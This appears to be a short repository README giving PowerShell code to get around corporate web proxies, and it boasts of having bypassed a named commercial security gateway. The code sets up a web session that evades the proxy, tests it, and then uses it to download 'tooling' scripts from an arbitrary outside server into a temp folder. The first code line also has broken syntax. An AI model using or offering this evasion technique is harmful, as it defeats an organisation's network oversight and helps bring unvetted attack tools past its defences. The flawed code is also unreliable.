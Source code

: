 # Proxy-Bypass using PowerShell.
When PowerShell is available and you need to bypass those annoying corp proxies, give this a try. A proxy bypass using powershell. Sucecssfully used to bypass Menlo Security Web Gateway. 

## PowerShell code for proxy bypass.
```
$Proxy-New-object System.Net.WebProxy
$WebSession-new-object Microsoft.PowerShell.Commands.WebRequestSession
$WebSession.Proxy=$Proxy
```

## Test proxy bypass is working.
```
Invoke-webrequest -Uri "https://www.google.com" -WebSession $WebSession
```

## Download scripts/tooling using bypass.
```
Invoke-webrequest -Method Get -Uri "https://ServerAddress/tool.ps1" -WebSession $WebSession -outfile c:\temp\tool.ps1
```
